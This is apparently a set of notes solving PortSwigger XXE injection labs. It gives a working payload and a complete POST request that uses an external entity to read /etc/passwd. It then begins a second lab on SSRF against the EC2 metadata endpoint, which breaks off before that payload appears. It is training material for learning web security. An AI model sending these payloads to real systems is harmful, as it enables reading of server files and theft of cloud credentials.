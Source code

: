 ```yaml
---
description: https://portswigger.net/web-security/xxe
---
```


# XML external entity (XXE) injection

### Lab: Exploiting XXE using external entities to retrieve files

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

**Base payload ->**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<...>&xxe;</...>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>1</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck>
		<productId>&xxe;</productId>
		<storeId>1</storeId>
	</stockCheck>
```

### Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

**Base payload ->**
